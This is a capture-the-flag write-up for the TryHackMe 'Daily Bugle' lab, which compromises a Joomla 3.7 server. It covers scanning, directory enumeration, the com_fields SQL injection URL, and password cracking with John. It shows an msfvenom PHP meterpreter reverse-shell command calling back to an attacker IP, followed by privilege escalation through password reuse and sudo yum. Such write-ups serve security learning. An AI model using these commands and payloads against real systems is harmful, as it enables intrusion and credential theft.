 ```yaml
---
layout: solution
category: TryHackMe
contest_code: Offensive_Pentesting
contest_name: Offensive Pentesting
problem_code: DAILY_BUGLE
problem_name: Daily Bugle
comments: false
tags: SQLi joomla RCE
date: 2022-01-31
---
```


### Rust Scan scanning tool was used to enumerate the running services on the server. Turns out it has SSH, Web service Joomla and  MySQL Database running

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/rustscan1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/rustscan2.png)

‎


### Upon visiting port 80, it brought us a web page called daily budge

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/index.png)

‎


### I tried to exploit to perform SQLi on the login page, but got me nothing. So I decided to enumerate any hidden pages and got a few interesting results. One of them was the readme.txt

```
gobuster dir -t 30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.133.246 -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/gobuster.png)

‎


### Upon visiting Readme.txt, it tells us Joomla version - 3.7

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/readme.png)

‎


### Running this version on Searchsploit show us it is vulnerable to SQLi 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/searchsploit1.png)

‎


### We can see that we can inject SQL statements in the following URL

```
index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(<SQL Syntax>)
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/searchsploit2.png)

‎


### We can exploit this manually, however it also accepts 1 column. Thus, it will be faster if used a script which I found [here](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) 
### When executed, I got credentials of user Jonah

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/sqli_exploit.png)

‎


### Using the credentials we got, we cracked it using John the Ripper

```
john --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/john.png)

‎


### I used to credentials to log to SSH but that didn't work. Instead, I used that to login into the Joomla admin console which gave me access

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/admin_console.png)

‎


### After a couple of minutes of research, I found out that I could execute PHP commands from the admin console. `Extensions > Templates > Templates` will bring you to a bunch of templates

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/templates.png)

<p style="color:orange;">You can click on either one, and it will bring you to templates php scripts</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/scripts.png)

‎


### So what we can do is inject a reverse shell into the template to get a shell when the template is loaded. Thus, I used MSFvenom to generate a PHP shellcode and create a Meterpreter Listener

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.21.149 LPORT=9999 -f raw > shell.php
```
<p style="color:orange;">Then I Injected the shell code into the index.php of the template</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/injection.png)

‎


### To load the template, I clicked on the template preview and it got me a shell

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/load.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/shell.png)

‎


### For further enumeration, I have uploaded and run Linpeas. It then found a password in a PHP configuration file.

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/password.png)

<p style="color:orange;">After further inspection, I can see that this password is used for MySQL database authentication as root</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/config.png)

<p style="color:orange;">Since there is a possibility that the password could be reused, I used it to log in into a higher privileged account - Jameson which worked</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/escalate1.png)

‎


### To further escalate my privileges to root, I decided check my Sudo privileges. It shows that I could execute yum as root

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/enumerate.png)

<p style="color:orange;">To exploit, I checked out GTFO Bins</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/gtfo.png)

<p style="color:orange;">Final exploit gave me a root shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/escalate2.png)

